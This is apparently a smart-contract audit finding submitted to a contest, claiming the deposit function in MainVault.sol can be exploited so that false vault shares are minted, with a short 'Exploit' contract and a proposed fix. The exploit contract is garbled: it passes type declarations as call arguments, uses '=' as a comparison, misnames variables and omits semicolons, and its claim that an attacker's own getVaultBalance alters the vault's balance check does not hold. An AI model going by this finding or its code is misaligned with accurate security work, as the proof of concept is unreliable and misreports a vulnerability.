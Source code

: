 josephdara

false

# 001H

## Summary
In MainVault.sol the deposit function can be exploited


## Vulnerability Detail

` function deposit(
    uint256 _amount,
    address _receiver
  ) external nonReentrant onlyWhenVaultIsOn returns (uint256 shares) {
    if (training) {
      require(whitelist[msg.sender]);
      uint256 balanceSender = (balanceOf(msg.sender) * exchangeRate) / (10 ** decimals());
      require(_amount + balanceSender <= maxTrainingDeposit);
    }

    uint256 balanceBefore = getVaultBalance() - reservedFunds;
    vaultCurrency.safeTransferFrom(msg.sender, address(this), _amount);
    uint256 balanceAfter = getVaultBalance() - reservedFunds;

    uint256 amount = balanceAfter - balanceBefore;
    shares = (amount * (10 ** decimals())) / exchangeRate;

    _mint(_receiver, shares);
  }`

 Can be exploited through the Vault.sol function;

  ` function getVaultBalance() public view returns (uint256) {
    return vaultCurrency.balanceOf(address(this));
  }  `
by using the IERC20 interface to return a different amount the second time getVaultBalance() is called
## Impact
A false balance is calculated and false shares are given

## Code Snippet
 
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Exploit {
  IERC20 private vaultCurrency;
      MainVault private mainvault;
      constructor(address _contract, address _vaultCurrency) {
          mainvault = MainVault(_contract);
          vaultCurrency = IERC20(_vaultCurrency)
      }
      function hack() external {
          mainVault.deposit(uint256 _amount,address _receiver);
      }
       function getVaultBalance() public view returns (uint256) {
      if (vaultCurrency.Currency.balanceOf(address(this)) = 0 ){return 10000000000000000000}
      return vaultCurrency.balanceOf(address(this));
      }
  }```

## Tool used
Remix, VScode
Manual Review

## Recommendation
The function deposit should look like this
 ```

  function deposit(
    uint256 _amount,
    address _receiver
  ) external nonReentrant onlyWhenVaultIsOn returns (uint256 shares) {
    if (training) {
      require(whitelist[msg.sender]);
      uint256 balanceSender = (balanceOf(msg.sender) * exchangeRate) / (10 ** decimals());
      require(_amount + balanceSender <= maxTrainingDeposit);
    }

    uint256 balanceBefore = getVaultBalance() - reservedFunds;
    vaultCurrency.safeTransferFrom(msg.sender, address(this), _amount);
    uint256 balanceAfter = getVaultBalance() - reservedFunds;
    uint256 amount = balanceAfter - balanceBefore;
    require( _amount == amount )
    shares = (amount * (10 ** decimals())) / exchangeRate;

    _mint(_receiver, shares);
  }

  ```
